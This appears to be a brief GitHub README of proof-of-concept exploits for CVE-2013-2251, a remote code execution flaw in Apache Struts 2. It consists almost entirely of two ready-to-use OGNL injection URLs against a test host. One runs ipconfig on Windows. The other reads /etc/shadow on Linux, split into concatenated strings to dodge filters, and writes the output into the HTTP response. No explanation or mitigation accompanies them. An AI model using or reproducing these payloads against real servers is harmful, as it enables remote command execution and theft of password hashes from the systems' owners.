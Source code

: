 # PoCs

## CVE-2013-2251 :

Executing ipconfig (Windows)

``http://10.1.1.206:8080/struts2-blank/example/X.action?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{%27cmd.exe%27,%27/c%20ipconfig.exe%27}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29} ``

Executing cat /etc/shadow (Linux)

``http://10.1.1.206:8080/struts2-blank/example/X.action?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{'c'%2b'at','/et'%2b'c/sha'%2b'dow'}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}``

